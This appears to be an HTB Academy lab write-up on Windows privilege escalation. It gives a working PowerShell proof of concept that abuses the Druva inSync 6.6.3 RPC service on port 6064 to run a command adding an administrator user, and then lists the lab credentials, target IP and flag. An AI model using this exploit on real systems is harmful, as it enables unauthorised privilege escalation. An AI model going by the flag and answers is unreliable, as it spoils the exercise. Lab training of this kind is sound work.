 ### PowerShell Exploit PoC
```powershell
# Basic command injection template
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"    # ← Modify this command

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Target**: `10.129.223.93` (ACADEMY-WINLPE-WS01)
- **Credentials**: `htb-student:HTB_@cademy_stdnt!`
- **Access Method**: xfreerdp
- **Vulnerable Service**: Druva inSync 6.6.3 (running on port 6064)
- **Flag Location**: `C:\Users\Administrator\Desktop\VulServices\flag.txt`
- **Flag**: `Aud1t_th0se_th1rd_paRty_s3rvices!`

### Detailed Walkthrough

#### 1. Connect via RDP
```bash
# Connect to target using xfreerdp
xfreerdp /v:10.129.43.44 /u:htb-student /p:HTB_@cademy_stdnt!

# Expected output:
[16:18:25:879] [4321:4323] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
